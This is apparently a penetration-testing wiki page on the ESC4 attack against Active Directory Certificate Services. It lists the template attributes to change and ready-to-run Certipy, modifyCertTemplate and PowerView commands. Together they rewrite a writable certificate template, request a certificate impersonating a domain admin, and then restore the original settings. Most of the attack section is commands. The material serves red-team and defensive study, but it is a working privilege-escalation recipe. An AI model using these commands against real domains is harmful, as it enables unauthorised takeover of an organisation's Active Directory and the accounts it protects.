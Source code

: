 # Certificate templates (ESC4)

In order to obtain an abusable template, some attributes and parameters need to be properly setup

1. Get Enrollment rights for the vulnerable template
2. Disable `PEND_ALL_REQUESTS` flag in `mspki-enrollment-flag` for disabling Manager Approval
3. Set `mspki-ra-signature` attribute to `0` to disable Authorized Signature requirement
4. Enable `ENROLLEE_SUPPLIES_SUBJECT` flag in `mspki-certificate-name-flag` to allow requesting users to specify another privileged account name as a SAN
5. Set `mspki-certificate-application-policy` to a certificate purpose for authentication
   1. Client Authentication (OID: `1.3.6.1.5.5.7.3.2`)
   2. Smart Card Logon (OID: `1.3.6.1.4.1.311.20.2.2`)
   3. PKINIT Client Authentication (OID: `1.3.6.1.5.2.3.4`)
   4. Any Purpose (OID: `2.5.29.37.0`)
   5. No EKU
6. Request a certificate (with a high-privileged user's name set as SAN) for authentication and perform Pass the Ticket.

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy)can be used to enumerate these sensitive access control entries, and to overwrite the template in order to add the SAN attribute and make it vulnerable to ESC1. It also had the capacity to save the old configuration in order to restore it after the attack.
```bash
# 1. Save the old configuration, edit the template and make it vulnerable
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template templateName -save-old

# Warning: running the coommand twice will override the backup file, make sure to keep a seconde backup of the old configuration somwhere.

# 2. Request a template certificate with a custom SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

# 3. After the attack, restore the original configuration
certipy template -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -template templateName -configuration 'templateName.json'
```

If a more precise template modification is needed, [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) can be used to modify each attributes of the template.
```bash
# 1. Disable Manager Approval Requirement
modifyCertTemplate.py -template templateName -value 2 -property mspki-enrollment-flag "$DOMAIN/$USER:$PASSWORD"

# 2. Disable Authorized Signature Requirement
modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature "$DOMAIN/$USER:$PASSWORD"

# 3. Enable SAN Specification
modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property "msPKI-Certificate-Name-Flag" "$DOMAIN/$USER:$PASSWORD"

# 4. Edit Certificate Application Policy Extension
modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property "pKIExtendedKeyUsage" "$DOMAIN/$USER:$PASSWORD"
```

> [!TIP]
>
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) tool can be used to enumerate these sensitive access control entries. [BloodHound](../../recon/bloodhound/index) doesn't support (MAYBE SOON!) enumeration of these access controls. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) can be used to modify the template.
```powershell
# 1. Enumerate sensitive access control entries
Certify.exe find

# 2. Disable Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# 3. Disable Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# 4. Enable SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# 5. Edit Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

> [!WARNING]
>
> If sensitive access entries are identified, creativity will be the best ally.
> 
> Currently, the best resources for manually abusing this are
> 
> * [Abusing weak ACL on Certificate Templates (by daemon0cc0re)](https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates)
> * [AD-CS The Certified Pre Owned Attacks (by HTTP418)](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)